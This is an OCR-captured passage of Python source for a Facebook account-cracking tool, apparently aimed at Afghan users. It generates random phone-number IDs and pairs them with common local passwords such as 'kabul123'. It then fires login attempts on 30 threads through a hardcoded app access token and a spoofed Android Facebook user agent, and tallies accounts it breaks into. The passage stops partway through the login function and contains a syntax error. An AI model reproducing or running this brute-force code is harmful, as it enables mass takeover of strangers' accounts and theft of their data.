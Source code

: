 		pcs = input(' [?] Select: ')
		for nmbr in range(limit):
			nmp = ''.join(random.choice(string.digits) for _ in range(7))
			user.append(nmp)
		with tred(max_workers=30) as FKING:	
			clear()
			tl = str(len(user))
			print(' Total ids : \033[1;32m'+tl+f' ')
			print(f'\033[1;37m Choice code  :\033[1;32m '+code)
			print(' \033[1;37mThe process is running in the background')
			linex()
			for psx in user:
				ids = code+psx
				if pcs in ['1','01']:
					passlist = [psx,ids,'۱۲۳۴۵۶','100200','500500','700800','900900','10002000','50006000','kabul123','Afghan1234','kabul1234','afghanistan','Afghanistan','50005000','###@@123]
					
				if mthd in ['1','01']:
					FKING.submit(fking1,ids,passlist)
		print('\033[1;37m')
		linex()
		print(' The process has completed')
		print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
		linex()
		input(' Press enter to back ')
		os.system('python FKING.py')

Ahmado1 = [ 'MTN', 'AWCC', 'Roshan', 'Etisalat']
Ahmado = random.choice(Ahmado1)
def fking1(ids,passlist):
        global loop
        global oks
        sys.stdout.write('\r\r\033[37;41m [AHMADO➥KING]\33[0;m %s|\033[1;32mOK:-%s \033[1;31m'%(loop,len(oks)));sys.stdout.flush()
        try:
                for pas in passlist:
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        Fjj=random.choice(FJoya)
                        Fjjj=random.choice(FJoya)
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'
                        fbrv = '0'
                        fban = 'FB4A'
                        fbpn = 'com.facebook.katana'
                        ua = 'Dalvik/2.1.0 (Linux; U; Android 11.0.0; 808SH Build/S2007) [FBAN/FB4A;FBAV/500.0.0.82.890;FBPN/com.facebook.katana;FBLC/cs_CZ;FBBV/522680587;FBCR/Etisalat Af;FBMF/SHARP;FBBD/SG;FBDV/808SH;FBSV/11;FBCA/arm64-v8a:armeabi-v7a:armeabi;FBDM/{density=1.5,width=540,height=888};FB_FW/1;]'
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        secure = str(uuid.uuid4())
                        family = str(uuid.uuid4())